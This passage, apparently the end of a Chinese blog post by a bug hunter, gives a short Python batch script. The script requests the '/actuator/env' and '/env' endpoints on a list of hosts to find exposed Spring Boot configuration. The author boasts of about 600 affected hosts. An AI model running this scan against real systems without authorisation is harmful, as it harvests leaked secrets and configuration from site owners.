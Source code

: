 ![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGa5ibGhMxZI0hWb3BkRnNUnlY5Te3mglgfSuAMh4Xau82PrDBF5EqMy6iaUFkePALQqnQWS5niaAicrzw/640?wx_fmt=png)

**ohhhh 600 个**

**其他 icon 等之类的方法不做演示（避免危害太大 5555555555）**

**这个是批量脚本，把 url 放到 list 里面就行啦**

```
import requests
list = ['','']
for i in list:
    try:
        url = "http://" +i + "/actuator/env"
        print(url)
        res = requests.get(url=url,allow_redirects=False,timeout=5)
        print(res.text)
        url = "http://" +i + "/env"
        print(url)
        res = requests.get(url=url,allow_redirects=False,timeout=5)
        print(res.text)
    except:
        pass
print("overeeeeeeeeeee")
```

**挖洞的时候，需要细心细心，再细心，因为一切往往都可能利用，****菜弟弟在线找小团团带，孤身奋战太难了~** **这里一个是想让大家记住的菜弟弟！**

**我是 wumingzhilian 下次再见~**

**![](https://mmbiz.qpic.cn/mmbiz_jpg/EWF7rQrfibGa5ibGhMxZI0hWb3BkRnNUnlbpVdPoskzE18RXIeqeSEKh3aXagTBybiaZiaUgFuumO2yRG05ylJaD4A/640?wx_fmt=jpeg)**

**在这里感谢各位师傅对我的帮助  
**

**（不分先后）**

*   al0neranger 师傅
    
*   二十岁只去过大卡司师傅
    
*   莫言师傅
    
*   fvcker 师傅
    
*   c 师傅
    
*   PeiQi 师傅
    
*   北美第一突破手师傅
    
*   望海寺师傅 
    

  

  

**如果对你有帮助的话  
那就长按二维码，关注我们吧！**  
